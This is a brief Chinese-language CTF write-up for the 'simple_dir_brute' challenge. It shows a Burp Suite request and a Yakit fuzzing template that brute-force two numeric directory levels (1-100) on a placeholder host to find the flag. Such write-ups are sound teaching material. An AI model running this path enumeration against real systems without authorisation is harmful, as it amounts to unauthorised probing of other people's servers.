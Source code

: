# simple_dir_brute

原地址：[GZCTF-challenges/simple_dir_brute](https://github.com/DeadlyUtopia/GZCTF-challenges/tree/main/simple_dir_brute)

访问网页，如下内容

![image-20251030133959892](assets/image-20251030133959892.png)

自动跳转 `IP:PORT/0/0/not-here.txt` 路径并显示 `where is flag?`

这题是目录爆破*~~（范围 **1-100**）~~*

使用 bp 抓个请求包先

```http
GET /0/0/ HTTP/1.1
Host: IP:PORT
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

成功爆破

![image-20251030134815518](assets/image-20251030134815518.png)

yakit 爆破请求包

```
GET /{{int(1-100)}}/{{int(1-100)}}/ HTTP/1.1
Host: IP:PORT
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

爆破目录，然后得到 flag